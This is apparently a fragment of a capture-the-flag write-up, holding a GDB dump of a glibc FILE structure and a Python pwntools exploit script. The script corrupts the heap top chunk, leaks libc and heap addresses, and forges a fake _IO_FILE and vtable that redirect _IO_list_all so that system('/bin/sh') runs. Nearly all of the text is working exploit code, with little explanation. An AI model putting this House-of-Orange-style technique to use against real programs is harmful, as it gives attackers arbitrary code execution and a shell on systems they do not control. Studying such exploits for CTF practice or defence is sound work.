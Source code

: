 ```
  _codecvt = 0x0,
  _wide_data = 0x0,
  _freeres_list = 0x0,
  _freeres_buf = 0x0,
  __pad5 = 0,
  _mode = 0,
  _unused2 = '\000' <repeats 19 times>
}
```

```python
def add(size):
    sla('choice :','1')
    sla(":",str(size))
    sa(':','a'*8)
    sla(':','1')
    sla(':','1')

def show():
    sla('choice :','2')

def edit(size,name):
    sla('choice :','3')
    sla(":",str(size))
    sa(':',name)
    sla(':','1')
    sla(':','1')

add(0x18)
useless = flat(0,0x21,0x1f00000001,0)
payload = 'a'*0x10 + useless + flat(0,0xfa1)
edit(0x40,payload) # corrupt top chunk

add(0x1000) # old_top -> unsorted
add(0x400) # slice old top
show()
ru('a'*8)
base = uu64(ru('\n'))-1640-libc.sym['__malloc_hook']-0x10
leak('base',base)
system = base + libc.sym['system']
io_list_all = base + libc.sym['_IO_list_all']

'''large chunk:
0x56512e53b0c0:    0x0000000000000000 0x0000000000000411
0x56512e53b0d0:    0x6161616161616161    0x00007f01ea979188
0x56512e53b0e0:    0x000056512e53b0c0    0x000056512e53b0c0
'''
edit(0x10,'a'*0x10)
show()
ru('a'*0x10)
heap = uu64(ru('\n')) - 0xc0
leak('heap',heap)

# jump_table+0x18
payload = flat(0,0,0,system).ljust(0x400,'\x00')
# _flags,size,fd,bk,write_base,write_ptr,padding,fake_vtable
payload += useless + flat('/bin/sh\x00',0x61,0,io_list_all-0x10,2,3,'\x00'*(0xd8-0x30),heap+0xd0)
edit(0x1000,payload)

sla('choice :','1')
```
